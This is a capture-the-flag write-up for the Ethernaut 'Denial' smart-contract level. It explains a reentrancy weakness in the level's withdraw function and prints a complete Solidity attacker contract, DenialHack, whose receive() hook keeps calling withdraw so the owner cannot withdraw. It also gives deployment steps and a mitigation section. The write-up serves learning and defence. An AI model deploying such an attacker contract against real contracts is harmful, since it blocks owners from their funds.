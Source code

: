 ```yaml
---
title: Level 20 - Denial
slug: level-20
published: 05-21-2023
lastEdited:
imgSrc: /images/ethernaut/ethernaut20.svg
---
```


## Objectives

1. Prevent the owner from calling `withdraw` even when the contract has a positive balance.

## Vulnerabilities

### Reentrancy

The withdraw function is vulnerable to reentrancy attacks. A timelock logic seems to be started
but not implemented completely. We can exploit this fact by making a _hack_ contract become a
withdraw partner.

## Exploit

1. Write and deploy a hacking contract like the following:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IDenial {
    function setWithdrawPartner(address) external;
    function withdraw() external;
    function contractBalance() external returns(uint);
}

contract DenialHack {
    IDenial target;

    constructor(address payable _targetAddress) {
        target = IDenial(_targetAddress);
    }

    receive() external payable {
        if(address(target).balance > 0){
            target.withdraw();
        } else {}
    }
}
```

2. Call `setWithdrawPartner` with the hacking contract's address as argument.

3. When the owner call withdraw, he will not receive any of it's eth.

## Suggested mitigation

1. Completing the timelock logic to one withdraw per hour, per day or whatever else increment of time would prevent this issue from happening.

## Further reading

- Timelock example. <ExternalLink href={"https://solidity-by-example.org/app/time-lock/"} />
- Reentrancy guard by OpenZeppelin <ExternalLink href={"https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard"} />
